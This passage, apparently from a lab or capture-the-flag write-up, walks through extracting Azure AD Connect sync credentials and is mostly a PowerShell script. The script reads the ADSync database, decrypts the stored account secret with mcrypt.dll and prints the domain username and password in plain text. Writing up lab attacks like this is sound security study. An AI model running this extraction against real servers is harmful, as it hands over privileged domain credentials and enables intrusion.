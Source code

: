 So I googled about this and found this article

> [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)

**Azure is a public cloud computing platform. It helps in synchronization of hashes and It encrypt the hashes with a dll called `mcrypt.dll`**


I did some few changes in the script. I added the IP address of the machine as Server here. Inorder to connect the database. So this script uses the same mcrypt.dll to decrypt the hash using the internal commands and gives the password in plain text.

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$server=10.10.10.172
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server = $server; Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
